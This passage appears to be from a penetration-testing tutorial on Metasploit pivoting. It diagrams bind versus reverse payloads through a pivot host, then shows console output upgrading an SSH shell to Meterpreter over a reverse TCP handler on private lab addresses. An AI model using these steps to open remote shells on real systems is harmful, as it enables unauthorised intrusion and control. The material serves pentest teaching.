 Bind payload:

```mermaid
sequenceDiagram
    Pentester->>Pivot: exploit
    Pivot->>Target: exploit
    activate Target
    Note over Target: payload is executed and a listener is setup
    Pentester->>Pivot: connect to the listener
    Pivot->>Target: connect to the listener
    deactivate Target
    Note over Target: profit
```

Reverse Payload:

```mermaid
sequenceDiagram
    activate Pentester
    Note over Pentester: setup a handler for the payload
    Pentester->>Pivot: exploit
    Pivot->>Target: exploit
    activate Target
    Note over Target: payload is executed and connects back
    Target->>Pivot: connect to the payload handler
    deactivate Target
    Pivot->>Pentester: connect to the payload handler
    deactivate Pentester
    Note over Target: profit
```

Let's see how to set up a reverse payload. First, the session needs to be
migrated to a Meterpreter session, since port forwarding is not supported by
shell sessions like SSH. Also, the initial routing needs to be deleted to
properly migrate:
```
msf6 auxiliary(scanner/http/owa_ews_login) > route del 192.168.144.0/24 1
[*] Route removed
msf6 auxiliary(scanner/http/owa_ews_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.100.243:4433
[*] Sending stage (1017704 bytes) to 192.168.100.245
[*] Meterpreter session 2 opened (192.168.100.243:4433 -> 192.168.100.245:54360) at 2022-12-19 16:27:52 +0100
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 auxiliary(scanner/http/owa_ews_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information                 Connection
  --  ----  ----                   -----------                 ----------
  1         shell linux            SSH n00tmeg @               192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
  2         meterpreter x86/linux  testuser @ 192.168.101.229  192.168.100.243:4433 -> 192.168.100.245:54360 (192.168.100.245)
```
